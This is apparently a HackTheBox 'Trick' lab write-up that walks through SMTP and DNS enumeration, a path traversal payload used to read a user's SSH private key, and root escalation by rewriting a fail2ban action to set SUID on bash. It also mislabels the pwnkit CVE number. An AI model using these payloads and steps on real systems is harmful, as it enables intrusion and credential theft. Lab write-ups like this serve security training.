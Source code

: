 ```yaml
---
title: HTB | Trick
author: Zeropio
date: 2022-08-28
categories: [Pentesting, HackTheBox]
tags: [htb, linux, easy, machines]
permalink: /pentesting/htb/machines/trick
image:
  path: /assets/img/hackthebox/card/Trick.png
  width: 800
  height: 500
---
```


# Enumeration

After the nmap we found a web and a SMTP server:

```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 61:ff:29:3b:36:bd:9d:ac:fb:de:1f:56:88:4c:ae:2d (RSA)
|   256 9e:cd:f2:40:61:96:ea:21:a6:ce:26:02:af:75:9a:78 (ECDSA)
|_  256 72:93:f9:11:58:de:34:ad:12:b5:4b:4a:73:64:b9:70 (ED25519)
25/tcp open  smtp    Postfix smtpd
|_smtp-commands: debian.localdomain, PIPELINING, SIZE 10240000, VRFY, ETRN, STARTTLS, ENHANCEDSTATUSCODES, 8BITMIME, DSN, SMTPUTF8, CHUNKING
53/tcp open  domain  ISC BIND 9.11.5-P4-5.1+deb10u7 (Debian Linux)
| dns-nsid: 
|_  bind.version: 9.11.5-P4-5.1+deb10u7-Debian
80/tcp open  http    nginx 1.14.2
|_http-title: Coming Soon - Start Bootstrap Theme
|_http-server-header: nginx/1.14.2
Service Info: Host:  debian.localdomain; OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## SMTP - Port 25

Going back to the SMTP server, we can connect with telnet as:

```console
zero@pio$ telnet 10.10.11.166 25
```

We succesfully connect. We can try if we can enumerate users with the **VRFY** command (same with **HELO**):

```
220 debian.localdomain ESMTP Postfix (Debian/GNU)
252 2.0.0 root
VRFY aaaaaaaa
550 5.1.1 <aaaaaaaa>: Recipient address rejected: User unknown in local recipient table
```

We try with a possible valid user and see that is valid. Sometimes all the response seems to be valid, so we try with a non-existing user and see that it got rejected. We can use now **smtp-user-enum** with the **Seclists** to get some valid users:

```console
zero@pio$ smtp-user-enum -M VRFY -U /usr/share/seclists/Usernames/top-usernames-shortlist.txt -t 10.10.11.166 -w 15
```

After executing the command we got 0 valid users, even though we know that the user **root** is a valid one. We add a timeout of 15 seconds with `-w 15` and get now two valid users with this wordlist:

```
10.10.11.166: root exists
10.10.11.166: mysql exists
```

Let’s try if the domain from the nmap is a valid one in the telnet:

```
VRFY root@debian.localdomain
252 2.0.0 root@debian.localdomain
VRFY root@asdasd.asdas
454 4.7.1 <root@asdasd.asdas>: Relay access denied
```

So we know that this is the syntax of the emails.

We can try to authenticate, getting errors with IMAP and POP3 authentication:

```
1 LOGIN root root
502 5.5.2 Error: command not recognized
USER root
502 5.5.2 Error: command not recognized
```

If we can try to `hydra` we confirm that we cannot authenticate here:

```console
zero@pio$ hydra -L valid_users -P /usr/share/wordlists/rockyou.txt -f 10.10.11.166

...
[ERROR] SMTP LOGIN AUTH, either this auth is disabled or server is not using auth: 503 5.5.1 Error: authentication not enabled
```

## DNS - Port 53

We would try some `dig` with the information aviable from the nmap, without success:

```console
zero@pio$ dig A debian.localdomain @10.10.11.166

zero@pio$ dig axfr debian.localdomain @10.10.11.166

zero@pio$ dig axfr 10.10.11.166 @10.10.11.166
```

But if we use the domain **trick.htb**:

```console
dig axfr trick.htb @10.10.11.166

; <<>> DiG 9.18.4-2-Debian <<>> axfr trick.htb @10.10.11.166
;; global options: +cmd
trick.htb.              604800  IN      SOA     trick.htb. root.trick.htb. 5 604800 86400 2419200 604800
trick.htb.              604800  IN      NS      trick.htb.
trick.htb.              604800  IN      A       127.0.0.1
trick.htb.              604800  IN      AAAA    ::1
preprod-payroll.trick.htb. 604800 IN    CNAME   trick.htb.
trick.htb.              604800  IN      SOA     trick.htb. root.trick.htb. 5 604800 86400 2419200 604800
;; Query time: 196 msec
;; SERVER: 10.10.11.166#53(10.10.11.166) (TCP)
;; WHEN: Sun Aug 28 11:14:05 BST 2022
;; XFR size: 6 records (messages 1, bytes 231)
```

We found the subdomain **prepod-payroll**. Let’s add it to the hosts file. We have here a login.

![Untitled](/assets/img/hackthebox/labs/trick/Untitled.png)

We cannot enumerate users there, providing bad credentials give an **Username or password is incorrect** error. 

We can try finding more subdomains fuzzing. Tools like `dnsrecon` doesn’t find anything. We can try with `wfuzz` to fuzz in the headers. This as well doesn’t provide anything. We can try using the same syntax as the founded subdomain:

```console
zero@pio$ wfuzz -c -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt -u http://10.10.11.166 -H 'Host: preprod-FUZZ.trick.htb' --hh 5480

000000254:   200        178 L    631 W      9660 Ch     "marketing"
```

We found a new subdomain, and here a new web:

![Untitled](/assets/img/hackthebox/labs/trick/Untitled%201.png)

If we move between pages we found that the URL is as: [`http://preprod-marketing.trick.htb/index.php?page=about.html`](http://preprod-marketing.trick.htb/index.php?page=about.html) .

## Nginx - Port 80

The web ask for a valid email (just the format). Inspecting the source code we couldn’t find any link to another web. We also found a domain, **debian.localdomain**, but adding it to the `/etc/hosts` {: .filepath} doesn’t provide any new web.

![Untitled](/assets/img/hackthebox/labs/trick/Untitled%202.png)

We can found in the source code a path to the background mp4. If we go one step back in `/assets/mp4/` {: .filepath} we got a **403 error.**

# Foothold

In the **preprod-marketing** subdomain we can use the `dotdotpwn` to test for path traversal:

```console
zero@pio$ dotdotpwn -m http-url -u http://preprod-marketing.trick.htb/index.php?page=TRAVERSAL -M GET -k root

```

Using the following payload `..././..././..././etc/passwd` we can read the file. Searching for users we found the **michael** user with a shell. Let’s try finding it a RSA with `..././..././..././home/michael/.ssh/id_rsa` . And we got it. Connect now to the machine with it.

Call the web with a curl to get the RSA in a good format and connect to it:

```console
zero@pio$ curl 'http://preprod-marketing.trick.htb/index.php?page=..././..././..././home/michael/.ssh/id_rsa'
```

# Privilege Escalation

After getting the shell we can check the kernel version:

```console
-bash-5.0$ uname -a
Linux trick 4.19.0-20-amd64 #1 SMP Debian 4.19.235-1 (2022-03-17) x86_64 GNU/
```

We see that is a vulnerable version, the CVE-2021-4043, pwnkit. If we check our sudo permission we can see that we can restart the **fail2ban** service:

```console
-bash-5.0$ sudo -l
Matching Defaults entries for michael on trick:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User michael may run the following commands on trick:
    (root) NOPASSWD: /etc/init.d/fail2ban restart
```

We will go to the path of the program, in `/etc/fail2ban/action.d/` {: .filepath}. We can’t write the config file, but we can remove it and create a new one with the following commands:

```console
-bash-5.0$ sed "s/<iptables> -I f2b-<name> 1 -s <ip> -j <blocktype>/chmod u+s \/bin\/bash/g" /etc/fail2ban/action.d/iptables-multiport.conf > config.conf
-bash-5.0$ rm -f /etc/fail2ban/action.d/iptables-multiport.conf
-bash-5.0$ mv config.conf /etc/fail2ban/action.d/iptables-multiport.conf
-bash-5.0$ sudo /etc/init.d/fail2ban restart
```

Start a bruteforcing to the ssh to get the **fail2ban** start:

```console
zero@pio$ hydra 10.10.11.166 ssh -l root -P /usr/share/wordlists/rockyou.txt
```

And after a few seconds execute bash and we should be root:

```console
-bash-5.0$ bash -p
bash-5.0# whoami
root
```
